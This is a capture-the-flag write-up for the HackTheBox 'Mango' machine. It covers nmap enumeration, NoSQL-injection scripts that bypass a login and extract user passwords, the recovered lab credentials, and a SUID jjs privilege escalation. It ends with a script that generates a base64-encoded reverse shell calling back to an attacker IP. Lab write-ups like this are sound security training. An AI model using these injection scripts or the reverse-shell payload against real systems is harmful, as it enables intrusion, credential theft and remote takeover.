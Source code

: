 ```yaml
---
title: Mango
date: 2022-08-05T15:52:54-04:00
summary: "Writeup for the Mango lab machine on HackTheBox"
draft: true
tags: [Hacking]
categories: [HackTheBox]
cover:
    image: "images/cover.png" # image path/url
    alt: Mango # alt text
    caption: "" # display caption under cover
    relative: true # when using page bundles set this to true
---
```


# Introduction

## Enumeration

### Nmap

```nohighlight
# Nmap 7.92 scan initiated Fri Aug  5 15:56:07 2022 as: nmap -sS -sCV -oA scans/nmap/init -Pn 10.10.10.162
Nmap scan report for 10.10.10.162
Host is up (0.022s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.29 (Ubuntu)
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Aug  5 15:56:24 2022 -- 1 IP address (1 host up) scanned in 17.07 seconds
```

### Websites

- nmap shows a hostname, so we update /etc/hosts

![/etc/hosts](./images/website/etc_host.png)

- going to http://mango.htb gives 403 forbidden, but http://staging-order.mango.htb gives a login page

![mango.htb](./images/website/http/mango_htb/403_forbidden.png)
![staging-order.mango.htb](./images/website/http/mango_htb/staging-order/homepage.png)

- https://mango.htb gives a search engine, https://staging-order.mango.htb goes to the same page

![https://mango.htb](./images/website/https/mango_htb/homepage.png)

- found a page for analytics.php on the https site with Gobuster. The license key for the app is expired though, and is thus useless

![Gobuster](./images/website/https/mango_htb/gobuster.png)
![analytics](./images/website/https/mango_htb/analytics_page.png)

### NoSQL Injection

- can bypass login with nosql injection

[PayloadAllTheThings - nosql injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#exploits)

![nosql injection](./images/website/http/mango_htb/staging-order/nosql_injection.png)
![home.php](./images/website/http/mango_htb/staging-order/home.png)

- can enum users and discover passwords with some scripts
```python
#!/usr/bin/env python3
# search_users.py
# verifies a user exists

import requests
import string

u="http://staging-order.mango.htb"
headers={'content-type': 'application/x-www-form-urlencoded'}

username=sys.argv[1]

payload='username[$regex]=^{}&password[$gt]='.format(username)
r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
if r.status_code == 302:
    print("valid user: {}".format(username))
```
```python
#!/usr/bin/env python3
# dump_users.py
# Supply a username and it will dump the password of that user the script runs forever,
# but once the ending of the password ends in "$" over and over again, its done.

import sys
import urllib.parse
import requests
import string

username=sys.argv[1]
password=""
u="http://staging-order.mango.htb"
headers={'content-type': 'application/x-www-form-urlencoded'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|']:
            c = urllib.parse.quote_plus(c)
            payload='username[$eq]={}&password[$regex]=^{}'.format(username, password + c)
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if r.status_code == 302:
                password += urllib.parse.unquote(c)
                print(password)

```
- credentials
    - admin:t9KcS3>!0B#2
    - mango:h3mXK8RhU~f{]f5H

- mango's creds can be used for ssh

![Shell as mango](./images/shell_as_mango.png)

- was using mongodb for the staging server

- jjs has the suid bit set and should be runnable s the admin user

![jjs suid](./images/java/jjs_can_be_run_by_admins.png)

- cant ssh as admin but can su to admin with the previously found password

![sshd_config](./images/ssh/allowed_users.png)
![shell as admin](./images/shell_as_admin.png)
![user.txt](./images/user_get.png)

- this is probably what need to do, but it aint working very good

[gtfobins jjs](https://gtfobins.github.io/gtfobins/jjs/#reverse-shell)
[jjs shell scripting docs](https://docs.oracle.com/javase/8/docs/technotes/guides/scripting/nashorn/shell.html)
[Useful article](https://cornerpirate.com/2018/08/17/java-gives-a-shell-for-everything/)

- Using the command on gtfobins only gives a shell as admin, but running bash with -p
  maintains root privileges.

![bash -p flag](./images/java/bash_arguments.png)

```python
#!/usr/bin/env python3
# gen_payload.py
# generates a payload for jjs that can be copy pasted into the target machine. will
# create a reverse shell at LHOST:LPORT

import base64

LHOST = "10.10.14.11"
LPORT = 4444

payload = (
    'var ProcessBuilder = Java.type("java.lang.ProcessBuilder");'
    'var p=new ProcessBuilder("/bin/bash", "-i", "-p").redirectErrorStream(true).start();'
    'var Socket = Java.type("java.net.Socket");'
    f'var s=new Socket("{LHOST}",{LPORT});'
    'var pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();'
    'var po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){ while(pi.available()>0)so.write(pi.read()); while(pe.available()>0)so.write(pe.read()); while(si.available()>0)po.write(si.read()); so.flush();po.flush(); Java.type("java.lang.Thread").sleep(50); try {p.exitValue();break;}catch (e){}};p.destroy();s.close();'
)
payload = base64.b64encode(payload.encode())
payload = payload.decode("utf-8")

print(f"echo \"eval(new java.lang.String(java.util.Base64.decoder.decode('{payload}')));\" | jjs")

```

![Shell as root](./images/shell_as_root.png)
![root.txt](./images/root_get.png)
